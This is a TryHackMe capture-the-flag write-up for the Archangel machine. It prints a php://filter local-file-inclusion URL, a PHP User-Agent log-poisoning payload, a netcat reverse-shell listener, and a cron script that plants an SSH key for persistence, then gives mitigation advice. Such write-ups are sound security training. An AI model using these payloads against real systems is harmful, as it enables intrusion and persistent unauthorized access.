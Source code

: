 #  Cybersecurity Assessment Report - Archangel 

**Prepared by:** Nishanth Antony  
**Date:** September 05, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation, Privilage Escalation  
**Platform:** Try Hack Me  


---

## 1. Reconnaissance

### 1.1 Service Enumeration

An initial **Nmap scan** was conducted to identify open services:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

* **Port 22 (SSH):** Open, potentially useful for post-exploitation persistence.
* **Port 80 (HTTP):** Hosted a web application named *Wavefire*.

### 1.2 Virtual Host Discovery

* Extracted domain information from the website footer: **mafialive.thm**.
* Added entry in `/etc/hosts` to resolve the hostname.

```bash
echo "10.10.93.69 mafialive.thm" | sudo tee -a /etc/hosts
```

### 1.3 Hidden Resource Discovery

* Retrieved `/robots.txt` which disclosed **/test.php**, a development page.

---

## 2. Exploitation Process

### 2.1 Local File Inclusion (LFI)

* Parameter `?view=` on `test.php` vulnerable to LFI.
* Initial restriction prevented traversal using `../..`.
* Used `php://filter` with base64 encoding to bypass and read source code:

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

* Extracted second flag inside source:

```
thm{explo1t1ng_lf1}
```

### 2.2 Log Poisoning for Remote Code Execution

* Discovered Apache access logs readable through LFI.
* Injected PHP payload via **User-Agent** header:

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

* Included the poisoned log file to execute system commands.
* Retrieved remote PHP reverse shell and gained access as **www-data**.

---

## 3. Proof of Concept (PoC)

* Reverse shell established:

```bash
rlwrap nc -nlvp 4444
connect to [10.8.50.72] from (UNKNOWN) [10.10.99.3] 49310
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

* Extracted user flag:

```
cat /home/archangel/user.txt
thm{lf1_t0_rc3_1s_tr1cky}
```

---

## 4. Privilege Escalation

### 4.1 Cronjob Exploitation

* Found writable script executed by user **archangel** every minute:

```
/opt/helloworld.sh
```

* Replaced with malicious script to append an SSH key:

```bash
#!/bin/bash
mkdir -p /home/archangel/.ssh
echo "ssh-rsa AAAAB3Nz..." >> /home/archangel/.ssh/authorized_keys
```

* Waited for cronjob execution → logged in as **archangel** via SSH.

### 4.2 Root Escalation

* Enumerated `/etc/crontab`, identified another exploitable task owned by **root**.

* Replaced with privilege escalation payload, obtained **root shell**.

* Final flag retrieved:

```
cat /root/root.txt
[REDACTED]
```

---

## 5. Mitigation Recommendations

1. **Web Application Security**

   * Disable **directory traversal and LFI vulnerabilities** through strict input validation.
   * Avoid exposing sensitive files (e.g., `/robots.txt` revealing development endpoints).
   * Sanitize user input and enforce whitelist-based file inclusion.

2. **Log Security**

   * Prevent log poisoning by sanitizing User-Agent headers.
   * Restrict log file read permissions from the web service.

3. **File Permissions**

   * Do not allow world-writable scripts in `/opt` or cron jobs.
   * Apply **principle of least privilege** (cronjobs should not be writable by other users).

4. **System Hardening**

   * Regularly audit **/etc/crontab** and scripts executed with elevated privileges.
   * Enable AppArmor/SELinux for additional confinement.

---

## 6. Lessons Learned & Skills Practiced

* Practical exploitation of **LFI → RCE via log poisoning**.
* Identified and bypassed **basic path traversal protections**.
* Leveraged cronjob misconfigurations for **privilege escalation**.
* Practiced **reverse shell handling, privilege enumeration, and persistence techniques**.
* Reinforced importance of **defense-in-depth**: securing applications, services, and OS-level tasks.

---

 **Report Summary**:
The Archangel machine was compromised by chaining an **LFI vulnerability** into **log poisoning for RCE**, followed by **cronjob privilege escalation**. Multiple misconfigurations and lack of input sanitization facilitated full system compromise.

---

